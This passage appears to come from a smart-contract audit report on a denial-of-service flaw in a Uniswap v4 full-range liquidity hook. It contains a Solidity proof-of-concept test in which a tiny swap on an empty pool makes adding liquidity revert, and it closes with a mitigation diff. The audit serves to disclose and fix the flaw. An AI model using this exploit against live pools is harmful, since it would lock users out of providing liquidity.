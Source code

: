 ```solidity
function test_FullRangeDoSDueToSwapWithNoLiquidity(uint256 token0Amount, uint256 token1Amount) public {
    // Constraining a minimum of 10000 to compute a liquidity above the 1000 minimum
    token0Amount = bound(token0Amount, 10000, key.currency0.balanceOfSelf());
    token1Amount = bound(token1Amount, 10000, key.currency1.balanceOfSelf());

    manager.initialize(key, SQRT_PRICE_1_1);

    IPoolManager.SwapParams memory params;
    HookEnabledSwapRouter.TestSettings memory settings;

    params =
        IPoolManager.SwapParams({ zeroForOne: true, amountSpecified: int256(- 1), sqrtPriceLimitX96: 79228162514264337593543950330 });
    settings =
        HookEnabledSwapRouter.TestSettings({ takeClaims: false, settleUsingBurn: false });

    router.swap(key, params, settings, ZERO_BYTES);

    (bool hasAccruedFees,) = fullRange.poolInfo(id);
    assertEq(hasAccruedFees, true);

    vm.expectRevert();
    fullRange.addLiquidity(
        FullRangeHook.AddLiquidityParams(
            key.currency0, key.currency1, 3000, token0Amount, token1Amount, 0, 0, address(this), MAX_DEADLINE
        )
    );
}
```

Here, 1 wei was swapped but in reality any amount can be used to DoS the pool.

The following line of code in `HookEnabledSwapRouter` should be commented out to successfully run the test:

```solidity
function unlockCallback(bytes calldata rawData) external returns (bytes memory) {
    ...
    // Make sure youve added liquidity to the test pool!
    // @audit disabled this for testing purposes
    // if (BalanceDelta.unwrap(delta) == 0) revert NoSwapOccurred();
    ...
}
```

This is just a helper function to execute swaps in the tests but prevents swaps of 0 delta.

**Recommended Mitigation:** Prevent swaps from being made in the pool when there is no liquidity to prevent the square root price from being moved arbitrarily:

```diff
    function beforeSwap(address, PoolKey calldata key, IPoolManager.SwapParams calldata, bytes calldata)
        external
        override
        onlyPoolManager
        returns (bytes4, BeforeSwapDelta, uint24)
    {
--      PoolInfo storage pool = poolInfo[key.toId()];
++      PoolId poolId = key.toId();
++      PoolInfo storage pool = poolInfo[poolId];
++      require(poolManager.getLiquidity(poolId) > 0);

        if (!pool.hasAccruedFees) {
```